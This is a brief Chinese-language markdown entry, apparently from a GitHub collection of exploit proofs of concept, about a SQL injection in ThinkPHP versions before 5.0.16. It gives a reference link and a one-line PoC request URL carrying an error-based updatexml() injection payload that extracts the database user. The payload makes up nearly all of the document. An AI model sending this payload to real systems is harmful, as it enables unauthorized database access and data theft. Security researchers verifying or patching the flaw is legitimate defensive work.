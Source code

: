 ## Thinkphp框架 < 5.0.16 存在sql注入
* https://paper.seebug.org/564/

-------------
###　poc

`ip/index.php/index/index/testsql?username[0]=inc&username[1]=updatexml(1,concat(0x7,user(),0x7e),1)&username[2]=1`

